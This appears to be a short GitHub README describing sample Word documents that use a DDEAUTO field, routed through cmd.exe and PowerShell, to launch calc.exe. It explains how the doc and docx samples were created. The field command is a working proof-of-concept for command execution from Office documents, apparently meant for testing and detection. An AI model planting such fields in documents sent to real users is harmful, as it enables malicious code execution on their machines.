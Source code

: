 # DDE_Samples
Samples of Word documents using Dynamic Data Exchange (DDE) to launch calc.exe using the following DDE command. 

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe start-process 'calc.exe'"  \* mergeformat 
```

The samples were created with Word in Office 2016. Two of the samples were saved as doc and two were saved as docx. Two were created by pasting the command into the formula textbox, and two were created by toggling the 'field' and inserting the command. 